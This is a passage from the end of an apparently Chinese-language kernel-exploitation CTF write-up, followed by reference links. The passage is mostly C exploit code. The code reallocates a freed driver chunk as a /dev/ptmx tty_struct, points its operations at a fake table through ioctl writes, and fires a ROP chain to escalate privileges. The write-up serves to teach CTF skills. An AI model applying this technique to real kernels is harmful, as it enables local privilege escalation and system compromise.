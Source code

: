 ```
        if(ioctl(fd1, 0x30000, &amp;io) == 0)
            break;
    }
    pthread_cancel(t);
    puts("[+] Now we have a 0x2C0 size Chunk!");

    ioctl(fd1, 0x30001, &amp;io);
    int fd2 = open("/dev/ptmx", O_RDWR);
    if (fd2 &lt; 0) {
        puts("[-] open error");
        exit(-1); 
    }
    puts("[+] Now we can write tty struct Chunk!");

    io.size  = 0x30;
    ioctl(fd1, 0x30003, &amp;io);

    IO_value[3] = (size_t)Fake_tty_operations;
    ioctl(fd1, 0x30002, &amp;io);

    puts("[+] Now ROP!");
    ioctl(fd2, 0, 0);
    return 0;
}
```

[![](./img/201454/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-03-21-115455.png)



## 0x08 参考链接

[CTF-Wiki Linux Kernel](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/kernel)

[When kallsyms doesn’t show addresses even though kptr_restrict is 0 – hatena ](https://kernhack.hatenablog.com/entry/2018/10/16/231945)

[kernel pwn入门(1) 简易环境搭建](http://pzhxbz.cn/?p=98)
